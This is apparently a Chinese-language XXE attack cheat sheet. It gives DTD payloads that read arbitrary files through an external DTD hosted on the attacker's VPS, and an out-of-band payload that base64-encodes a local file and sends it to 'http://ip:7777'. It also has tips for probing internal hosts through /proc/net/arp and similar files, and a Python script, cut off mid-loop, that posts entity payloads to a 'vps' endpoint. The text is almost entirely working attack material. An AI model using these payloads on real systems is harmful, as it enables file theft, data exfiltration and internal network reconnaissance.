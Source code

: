 **恶意读取任意文件**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

读取目标系统下的文件，实体调用位于自己vps的evil.dtd,适用于有回显的文件读取

本地无回显得XXE可以回显到自己的vps上

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:7777?p=%file;'>">
```

```xml-dtd
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

**内网主机探测**

利用file协议，尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件

在bp上进行固定ip的端口遍历探测端口；

参考代码

```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://vps/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
```